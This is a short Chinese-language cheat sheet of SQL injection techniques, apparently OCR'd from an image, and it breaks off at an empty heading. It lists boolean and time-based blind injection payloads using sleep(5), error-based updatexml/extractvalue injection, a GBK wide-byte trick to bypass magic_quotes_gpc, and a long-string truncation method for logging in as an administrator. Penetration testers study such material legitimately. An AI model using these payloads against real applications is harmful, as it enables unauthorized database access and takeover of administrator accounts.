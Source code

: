 # 盲注

## 布尔盲注

id=1 and SUBSTRING(user(),*num*, 1) = ′chr’

函数可使用：substr length ascii

如果相等则返回正确的执行结果

如果不相等则返回默认的错误提示页或者原生错误提示。

## 基于时间的盲注

id=1 union select if(substring(user() ,*num*, 1)=chr,sleep(5),1),null,null

if (length(user())=5,sleep(5),1)

if(hex(mid(user(),1,1))=1,sleep(5),1)

if(left(user(),3)=“hrx”,sleep(5),1)

strcmp(left((select database()),1),0x6d)=1

如果相等则暂停5秒

如果不相等则返回1

## 基于报错的

根据报错信息猜测语法结构

updatexml(1,payload,1)

extractvalue(1,payload)

## 宽字节注入

如果mysql得字符集使GBK等宽字节字符集得话

php如果开启了magic_quotes_gpc功能，那么通过_GET,_POST,_COOKIE方法传入的参数中的’,",null,/转义，此时就不能完成注入，我么你可以这样构造注入参数id=%4d’,这样的参数后面的’不会被转义，从而达到注入的目的

高字节%e6 %df

## 长字符串截断

mysql在没有开启严格模式的情况下，对于插入长度超过字符长度限制的数据并不会报错而是警告，但数据已经成功插入，我们可以利用这一点，创建一个长度超过限制的用户名后面插入很多得空格，当然这个用户名得和管理员得用户名相同，但后面却多了一长串得空格，因为长度超出限制，多余的部分被截断，但此时我们查询数据可管理员的账户的时候，将同时查询到这两个值，于是，我们可以利用我们新创建的这个用户登录管理员的后台。

## 白名单绕过

#锚点 后面的内容不会发送到后台

## 报错注入
